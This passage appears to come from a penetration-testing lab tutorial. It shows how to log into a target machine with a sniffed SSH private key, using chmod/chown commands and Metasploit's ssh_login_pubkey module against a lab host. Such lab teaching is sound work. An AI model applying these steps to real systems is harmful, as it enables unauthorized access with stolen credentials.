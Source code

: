 Now we have placed target machine's public key into its authorized keys of the target and sniffed its private key. We can simply connect to the target using ssh-client with the target private key, but here I am using ssh_login_pubkey auxiliary of the metasploit frameowork because it automate the task of authentication if we have **multiple private keys** and didn't know which key is used to authenticate with the target, or we have **multiple targets** or we have **multiple users and key pair**, In that case we use this modules to automatically trying to authenticate with username and keys-pairs instead of manually checking.
```
# Check for the current user have permission with sniffed private key file, if not 
sudo chown kali target_rsa_idd
sudo chmod 600 target_rsa_idd
```

```
msfconsole
msf> search ssh_login_pubkey
msf> use auxiliary/scanner/ssh/ssh_login_pubkey
#setting the required field 
msf  auxiliary(ssh_login_pubkey) > options
msf  auxiliary(ssh_login_pubkey) > set RHOSTS 192.168.1.103
#Must ensure that that the key file has right(read,write) permission to current user
msf  auxiliary(ssh_login_pubkey) > set KEY_FILE /home/kali/target_id_rsa
msf auxiliary(ssh_login_pubkey) > set USERNAME msfadmin
msf auxiliary(ssh_login_pubkey) > exploit

```
![](../images/changing_ownership_and_permission_of_sniffed_key_file.png)